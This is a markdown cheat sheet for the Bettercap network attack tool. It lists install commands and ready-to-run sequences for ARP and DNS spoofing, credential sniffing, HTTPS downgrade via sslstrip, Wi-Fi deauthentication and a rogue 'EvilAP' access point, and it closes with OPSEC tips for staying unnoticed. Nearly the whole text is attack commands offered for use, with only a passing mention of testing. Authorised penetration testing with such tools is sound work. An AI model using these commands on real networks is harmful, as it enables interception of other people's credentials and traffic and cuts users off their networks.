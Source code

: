 ## Using `go` (Latest):
```
go install github.com/bettercap/bettercap@latest

```

## 🚀 Starting Bettercap
```
sudo bettercap -iface wlan0
```

Optional: auto-run module/script:
```
sudo bettercap -iface wlan0 -caplet http-ui
```

## 🎯 Interface Commands

bash

CopiarEditar

```
net.show            # Show LAN hosts
net.probe on        # ARP scan (active)
net.recon on        # Discover new hosts passively
net.recon off       # Disable passive recon
net.sniff on        # Start sniffing credentials and data
```

## 🛠️ MITM Setup

### Enable Spoofing & Sniffing
```
set net.sniff.verbose true
net.sniff on
set arp.spoof.targets <IP>
arp.spoof on
```

## DNS Spoofing
```
set dns.spoof.domains example.com
set dns.spoof.address 192.168.1.100
dns.spoof on
```

## 🌐 HTTP Proxy / Credential Sniffing
```
http.proxy on
http.server on
```

## Show Logged Credentials
```
events.stream on
```

## 📡 Wi-Fi Attacks
```
wifi.recon on              # Scan nearby APs and clients
wifi.show                  # List scanned devices
wifi.deauth <target>       # Deauth a client
wifi.ap.ssid "EvilAP"      # Set fake AP SSID
wifi.ap.on                 # Start rogue AP
```

## 🔐 HSTS/HTTPS Downgrade (BeEF-style)

Bettercap supports HSTS bypass if the browser is vulnerable (older versions). Requires:
```
http.proxy.sslstrip on
http.proxy on
```

## 📜 Using Caplets (Scripts)

Caplets are script files with Bettercap commands.

### List Built-in Caplets
```
caplets.update
caplets.show
```

## Load Caplet
```
caplets.show          # View available
caplets.install <name>
net.probe on
```

## Example: Load Web UI
```
caplets.update
caplets.show
bettercap -caplet http-ui
```

## 🧾 Logging

Enable logging to file:
```
set events.stream.output mylog.txt
events.stream on
```

## 🔍 Common Modules

|Module|Use|
|---|---|
|`net.sniff`|Packet sniffer with credentials parser|
|`arp.spoof`|ARP MITM spoofing|
|`dns.spoof`|DNS redirection|
|`http.proxy`|Transparent proxy|
|`wifi.ap`|Fake access point|
|`wifi.deauth`|Kick users from networks|

## 🔐 OPSEC Tips

- Monitor Bettercap's footprint on the network
    
- Use with proper isolation (e.g. rogue AP)
    
- Avoid HTTP Proxy on secure networks unless testing

































































